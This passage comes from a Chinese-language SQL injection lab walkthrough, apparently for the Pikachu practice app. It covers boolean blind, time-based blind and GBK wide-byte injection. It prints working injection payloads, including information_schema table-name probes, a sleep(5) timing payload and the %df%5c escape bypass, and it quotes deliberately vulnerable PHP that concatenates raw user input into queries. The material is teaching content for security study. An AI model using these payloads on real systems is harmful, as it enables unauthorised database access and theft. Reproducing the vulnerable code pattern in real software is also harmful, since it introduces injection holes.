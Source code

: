 ```
猜解表面
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) > 113#
kobe' and ascii(substr((select table_name from information_schema.tables where table_schema=database() limit 0,1), 1, 1)) =104#

```

同样方法去猜解列名、数据，手工比较麻烦，多用工具或者脚本方便一些。
## 盲注(base_on_time)
**漏洞原理**

基于真假的盲注可以看到回显信息，即正确 or 错误
基于时间的注入就看不到了，可以通过特定输入，判断后台执行时间，用到sleep()函数

**服务端核心代码**

```php
if(isset($_GET['submit']) && $_GET['name']!=null){
    $name=$_GET['name'];//这里没有做任何处理,直接拼到select里面去了
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    $result=mysqli_query($link, $query);//mysqi_query不打印错误描述
//     $result=execute($link, $query);
//    $html.="<p class='notice'>i don't care who you are!</p>";
    if($result && mysqli_num_rows($result)==1){
        while($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            //这里不管输入啥,返回的都是一样的信息,所以更加不好判断
            $html.="<p class='notice'>i don't care who you are!</p>";
        }
    }else{

        $html.="<p class='notice'>i don't care who you are!</p>";
    }
}
```

payload:``123' and if(length(database())=7,sleep(5),1) #``

## 宽字节注入
**漏洞原理**

输入有单引号时会被转义成``\'``,无法构造SQL语句，这时候用到了宽字节注入

前提条件是数据库被设置为GBK编码，反斜杆的编码为``%5c``,而``%df%5c``就是繁体字"連"

**服务端核心代码**
```php
if(isset($_POST['submit']) && $_POST['name']!=null){

    $name = escape($link,$_POST['name']);
    $query="select id,email from member where username='$name'";//这里的变量是字符型,需要考虑闭合
    //设置mysql客户端来源编码是gbk,这个设置导致出现宽字节注入问题
    $set = "set character_set_client=gbk";
    execute($link,$set);

    //mysqi_query不打印错误描述
    $result=mysqli_query($link, $query);
    if(mysqli_num_rows($result) >= 1){
        while ($data=mysqli_fetch_assoc($result)){
            $id=$data['id'];
            $email=$data['email'];
            $html.="<p class='notice'>your uid:{$id} <br />your email is: {$email}</p>";
        }
```